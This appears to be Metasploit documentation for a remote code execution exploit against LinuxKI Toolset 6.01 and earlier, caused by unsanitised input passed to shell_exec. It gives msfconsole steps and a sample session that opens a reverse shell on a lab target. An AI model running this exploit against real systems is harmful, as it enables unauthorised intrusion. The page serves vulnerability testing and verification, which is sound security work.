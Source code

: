 ## Description

This module exploits a vulnerability in LinuxKI Toolset <= 6.01 which allows remote code execution. The kivis.php pid parameter received from the user is sent to the shell_exec function, resulting in security vulnerability.


## Vulnerable Application
LinuxKI Toolset <= 6.01 

To test this application, you need to download the version 6.01 [here](https://github.com/HewlettPackard/LinuxKI/blob/v6.0-1/Dockerfile).
Do not forget to change [this URL](https://raw.githubusercontent.com/HewlettPackard/LinuxKI/master/rpms/linuxki-6.0-1.noarch.rpm) inside the Dockerfile with [this one](https://github.com/HewlettPackard/LinuxKI/raw/v6.0-1/rpms/linuxki-6.0-1.noarch.rpm).


## Verification Steps

1. Start `msfconsole`
2. `use exploit/linux/http/linuxki_rce`
3. `set RHOST <target_ip>`
4. `set RPORT <target_port>`
5. `set LHOST <your_ip>`
6. `set LPORT <your_port>`
7. Ideally run `check`
8. `set LHOST <your_ip>`
9. `set LPORT <your_port>`
10. Optional: `set TARGETURI <path_to_linuxki>` if target system uses a different path to LinuxKI
11. `exploit`

## Scenarios
### LinuxKI Toolset v6.01

```
msf5 > use exploit/linux/http/linuxki_rce
msf5 exploit(linux/http/linuxki_rce) > set rhosts 10.0.0.1
rhosts => 10.0.0.1
msf5 exploit(linux/http/linuxki_rce) > set rport 8080
rport => 8080
msf5 exploit(linux/http/linuxki_rce) > check
[+] 10.0.0.1:8080 - The target is vulnerable.
msf5 exploit(linux/http/linuxki_rce) > set lhost 10.0.0.5
lhost => 10.0.0.5
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 10.0.0.5:4444
[*] Sending exploit...
[*] Command shell session 1 opened (10.0.0.5:4444 -> 10.0.0.1:58914) at 2020-05-19 08:32:32 +0300

id
uid=48(apache) gid=48(apache) groups=48(apache)
```